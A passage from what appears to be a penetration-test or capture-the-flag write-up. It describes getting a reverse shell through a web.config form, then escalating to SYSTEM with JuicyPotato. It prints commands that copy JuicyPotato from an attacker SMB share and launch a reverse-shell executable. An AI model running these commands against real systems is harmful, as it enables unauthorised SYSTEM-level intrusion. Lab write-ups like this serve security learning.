    ![image-20201116201703393](.Report.assets/image-20201116201703393.png)

4. Finally, I started a netcat listener and used the web.config form to run my exe from above to get a reverse shell as the merlin user:
   ![image-20201116201817696](.Report.assets/image-20201116201817696.png)

5. I checked the user's privileges and saw it has the seimpersonate privilege, providing an opportunity for juicypotato.  I started a netcat listener and used SMB to transfer the juicypotat to the target and then used it to re-run my reverse shell exe to get a reverse shell as SYSTEM:

   ```powershell
   copy \\10.10.14.37\coyote\JuicyPotato.exe c:\users\public\
   
   c:\users\public\JuicyPotato.exe -l 1337 -p c:\users\public\win_revtcp_8000.exe -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
   ```
